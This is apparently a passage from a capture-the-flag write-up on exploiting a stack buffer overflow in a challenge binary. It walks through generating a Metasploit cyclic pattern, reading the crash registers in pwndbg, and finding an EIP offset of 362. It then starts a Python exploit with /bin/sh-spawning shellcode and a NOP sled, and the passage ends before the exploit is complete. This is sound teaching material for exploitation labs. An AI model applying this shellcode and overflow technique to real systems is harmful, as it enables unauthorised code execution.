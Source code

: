 We can create a unique pattern and run the binary with the pattern generated.

```bash
❯ msf-pattern_create -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

❯ gdb ./chal
pwndbg> r <pattern>
...
──────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────
 EAX  0
 EBX  0xf7f9ae14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x235d0c /* '\x0c]#' */
 ECX  0xffffd6e0 ◂— 'An0An1An2A'
 EDX  0xffffd288 ◂— 'An0An1An2A'
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x8048450 (__libc_csu_init) ◂— push ebp
 EBP  0x6d41396c ('l9Am')
 ESP  0xffffd270 ◂— 'Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A'
 EIP  0x316d4130 ('0Am1')
...
```

Once the binary crashes, we can take the EIP and find the offset (buffer space).

```bash
❯ msf-pattern_offset -q 0x316d4130
[*] Exact match at offset 362
```

The buffer space is `362`. 

Lets grab a shellcode that we want to execute when the buffer overflow is triggered. We can get some shellcodes from this [website](https://shell-storm.org/shellcode/index.html). In this case, we want a shellcode that spawns a shell.

Now we can start crafting our payload.

``` python
#!/usr/bin/env python3

import sys

bufsize = 362

# https://shell-storm.org/shellcode/files/shellcode-811.html
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

nopsled = "\x90" * (bufsize - len(shellcode))
```
